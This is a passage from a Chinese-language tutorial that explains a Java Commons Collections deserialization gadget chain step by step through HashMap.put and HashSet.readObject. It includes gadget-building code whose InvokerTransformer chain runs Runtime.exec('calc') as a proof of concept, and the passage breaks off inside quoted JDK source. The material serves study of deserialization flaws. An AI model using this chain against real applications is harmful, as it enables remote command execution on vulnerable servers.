 



* 第九层`java.util.HashMap.put()`

`put()`方法的代码如下

```java
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

这里只要我们只要put(tiedmap,"23131")就可以触发hash(key)了，既hash(tiedmap)



所以到这一层的代码构造如下：

```java
Transformer[] transformers = new Transformer[]{
     new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime", null}),
     new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, null}),
     new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
HashMap innermap = new HashMap();
LazyMap map = (LazyMap)LazyMap.decorate(innermap,chainedTransformer);
TiedMapEntry tiedmap = new TiedMapEntry(map,Runtime.class);


HashMap<Object,Object> hashMap=new HashMap<>();
hashMap.put(tiedmap,"12333");
```







* 第十层`java.util.HashSet.readObject()`

很明显，这里已经是链子的末尾了，HashSet重写了`readObject()`,既反序列化入口

先来看一下这个`readObject()`的代码

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Consume and ignore stream fields (currently zero).
    s.readFields();
    // Read capacity and verify non-negative.
    int capacity = s.readInt();
    if (capacity < 0) {
        throw new InvalidObjectException("Illegal capacity: " +
                                         capacity);
    }

    // Read load factor and verify positive and non NaN.
    float loadFactor = s.readFloat();
    if (loadFactor <= 0 || Float.isNaN(loadFactor)) {
        throw new InvalidObjectException("Illegal load factor: " +
                                         loadFactor);
    }
    // Clamp load factor to range of 0.25...4.0.
    loadFactor = Math.min(Math.max(0.25f, loadFactor), 4.0f);

    // Read size and verify non-negative.
    int size = s.readInt();
    if (size < 0) {
```